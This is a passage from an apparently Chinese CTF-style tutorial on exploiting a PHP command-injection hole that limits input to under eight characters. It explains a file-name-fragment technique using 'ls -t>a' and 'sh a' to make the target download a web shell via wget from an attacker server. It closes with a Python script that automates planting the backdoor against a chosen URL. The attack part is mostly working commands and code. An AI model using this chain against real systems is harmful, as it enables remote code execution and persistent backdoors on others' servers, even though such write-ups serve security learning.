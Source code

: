 - 重定向到文件
```php
<?php
    if(strlen($_POST['p'])<8){
    	echo shell_exec($_POST['p']);
    }
?>
```

这里需要利用重定向文件：n \> file指令是将文件描述符为n的文件重定向到file。由于受字数限制，需要分多次执行。

举个例子，如果我们要执行`echo 1`这条指令，那我们需要分段，转义，然后倒序输进去：
```
>\ 1\\
>echo\\
ls -t>a
```

原理是输入这些命令后，通过ls命令按照时间逆序(-t)列举出来，然后导入到文件a中去，导入后`cat a`可以看a文件的内容为：
```
echo\
 1\
```

利用这个留后门，也就是写shell的时候，直接写入shell的话可能需要各种转义，因为很多符号在php函数中会被执行，比较麻烦。可以考虑写入curl或wget指令让靶机向我们自己的服务器下载shell文件。如下，依次执行：
```
>php\\
>\\ 1.\\\\
>\\ -O\\\\
>.cn\\\\
>\\ xx\\\\
>wget\\\\
ls -t>a
sh a
```

相当于执行了wget xx.cn -O 1.php，从xx.cn网站处下载保存成1.php文件。可以修改靶机hosts文件使xx.cn指向自己的服务器IP。

还可以写一个利用命令执行漏洞写后门的自动化脚本（POST型）：
```python
import requests
cmd_list = [">php\\",">\\ 1.\\\\",">\\ -O\\\\",">.cn\\\\",">\\ xx\\\\",">wget\\\\"]
url = "http://xxx.com/xxx.php"	# 修改为靶机命令执行漏洞链接
url2 = "http://xxx.com/1.php"	# 修改即将为靶机新创建的shell链接
post_key = 'p'	# 产生命令执行漏洞的POST处的参数名称
for cmd in cmd_list:
    param = {post_key:cmd}
    requests.get(url, params=param)
param = {post_key:'ls -t>a'}
requests.get(url, params=param)
param = {post_key:'sh a'}
requests.get(url, params=param)
res = requests.get(url2)
if res.status_code == '200':
    print("success")
else:
    print("failed")

```
